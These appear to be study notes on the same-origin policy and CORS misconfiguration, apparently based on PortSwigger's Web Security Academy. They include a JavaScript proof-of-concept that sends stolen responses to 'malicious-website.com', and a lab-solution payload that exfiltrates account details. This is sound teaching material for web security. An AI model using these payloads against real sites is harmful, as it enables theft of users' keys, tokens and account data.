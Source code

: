 Due to legacy requirements, the same-origin policy is more relaxed when dealing with cookies, so they are often accessible from all subdomains of a site even though each subdomain is technically a different origin. You can partially mitigate this risk using the `HttpOnly` cookie flag.

It's possible to relax same-origin policy using `document.domain`. This special property allows you to relax SOP for a specific domain, but only if it's part of your FQDN (fully qualified domain name). For example, you might have a domain `marketing.example.com` and you would like to read the contents of that domain on `example.com`. To do so, both domains need to set `document.domain` to `example.com`. Then SOP will allow access between the two domains despite their different origins. In the past it was possible to set `document.domain` to a TLD such as `com`, which allowed access between any domains on the same TLD, but now modern browsers prevent this.



## Vulnerabilities arising from CORS configuration issues

- Many modern websites use CORS to allow access from subdomains and trusted third parties. Their implementation of CORS may contain mistakes or be overly lenient to ensure that everything works, and this can result in exploitable vulnerabilities.
- ### Server-generated ACAO header from client-specified Origin header

	- Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively **allowing access from any other domain.**

	- One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:
	- `GET /sensitive-victim-data HTTP/1.1 Host: vulnerable-website.com Origin: https://malicious-website.com Cookie: sessionid=...`

	- It then responds with:

	- `HTTP/1.1 200 OK Access-Control-Allow-Origin: https://malicious-website.com Access-Control-Allow-Credentials: true ...`

	- These headers state that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.

	- Because the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or CSRF  token, you could retrieve this by placing the following script on your website:
	- 
```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true;
req.send();
function reqListener() { location='//malicious-website.com/log?key='+this.responseText;
};
```
- 
	- #### [practice in this lab](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)
```html
<script> 
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;
req.send();
function reqListener() { 
	location='/log?key='+this.responseText; 
};
</script>
```